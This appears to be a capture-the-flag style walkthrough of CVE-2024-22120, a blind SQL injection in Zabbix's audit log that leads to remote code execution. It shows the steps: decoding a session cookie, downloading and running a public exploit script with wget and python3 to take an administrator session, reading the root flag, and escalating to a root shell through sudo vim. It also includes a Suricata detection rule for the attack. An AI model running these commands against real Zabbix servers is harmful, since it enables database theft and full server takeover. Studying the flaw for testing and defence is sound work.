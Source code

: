# CVE-2024-22120 in Zabbix
**Introduction**

Zabbix: system monitoring.
The architecture of Zabbit: server, database storage, web interface, proxy,agent, dashboards

In CVE-2024-22120, a time-based blind SQL injection vulnerability was identified in the Zabbix server's Audit Log feature, which could allow a low-level user to dump the database, leading to remote code execution (RCE) and full control of the Zabbix server.

**Vulnerability Overview:**
The vulnerability was discovered in Zabbix versions:
6.0.0 - 6.0.27
6.4.0 - 6.4.12
7.0.0alpha1 - 7.0.0beta1

CVE-2024-22120 allows low-privileged users to execute SQL injection attacks via the Audit Log feature. The clientip field in the log is improperly sanitized, allowing attackers to inject SQL queries that exploit time-based blind SQL injection.

**Reproduce**
Step 1 : Gather Exploit Prerequisites
Session ID (sid): This is required to authenticate the low-privileged user to the Zabbix server.
Host ID (hostid): This can be obtained from the Zabbix dashboard or web interface.

Obtain Session ID and Host ID:
Login to Zabbix -> get cookie
```bash
eyJzZXNzaW9uaWQiOiI3YTJjMmQ0N2NjZmYyZGRmMTU3ZmVmYzgwZmQ3MTNjMSIsInNlcnZlckNoZWNrUmVzdWx0Ijp0cnVlLCJzZXJ2ZXJDaGVja1RpbWUiOjE3NTU3MDIwNzAsInNpZ24iOiJlYzYwYjMwYzI4NDNjNTQ5YTU2YmRhNTk3OWFhMWY5MDVhMjdkMmI3YTFiMTczMTQ1NDRmY2NlZWEwMjE2MDdhIn0%3D
```
decoded it 
sid: 7a2c2d47ccff2ddf157fefc80fd713c1
search in dev tools -> hostids: 10084
Step 2 : Exploit the SQL Injection
```bash
wget https://raw.githubusercontent.com/W01fh4cker/CVE-2024-22120-RCE/refs/heads/main/CVE-2024-22120-RCE.py
```
pip3 install pwn
python3 CVE-2024-22120-RCE.py --ip <Target_IP> --sid <Session_ID> --hostid <Host_ID>

Get administrator's session ID
```bash
(!) sessionid=0b1ab84721d989c27e3214af2959f254989c27e3214af2959f254
```

```bash
python3 CVE-2024-22120-RCE.py --ip 10.129.231.23 --sid  --hostid 10084 
```
cat /root/root.txt

```
alert tcp any any -> $HOME_NET any (msg:"ET WEB_SPECIFIC_APPS Zabbix Server Blind SQL Injection via clientip Parameter (CVE-2024-22120)"; content:"ZBXD|01|"; fast_pattern; startswith; content:"|22|clientip|22 3a|"; pcre:"/^[^\x2c]*(?:(?:S(?:HOW\x20(?:C(?:UR(?:DAT|TIM)E|HARACTER\x20SET)|(?:VARI|T)ABLES)|ELECT\x20(?:FROM|USER))|U(?:NION\x20SELEC|PDATE\x20SE)T|DELETE\x20FROM|INSERT\x20INTO)|S(?:HOW.+(?:C(?:HARACTER.+SET|UR(DATE|TIME))|(?:VARI|T)ABLES)|ELECT.+(?:FROM|USER))|U(?:NION.+SELEC|PDATE.+SE)T|DELETE.+FROM|INSERT.+INTO|\x2f\*.+\*\x2f)?/Ri"; reference:url,support.zabbix.com/browse/ZBX-24505; reference:cve,2024-22120; classtype:web-application-attack; sid:2055989; rev:1; metadata:affected_product Zabbix, attack_target Server, tls_state plaintext, created_at 2024_09_19, cve CVE_2024_22120, deployment Perimeter, deployment Internal, performance_impact Moderate, confidence High, signature_severity Major, tag Exploit, updated_at 2024_09_19, mitre_tactic_id TA0001, mitre_tactic_name Initial_Access, mitre_technique_id T1190, mitre_technique_name Exploit_Public_Facing_Application; target:dest_ip;)
```

sudo vim
:!bash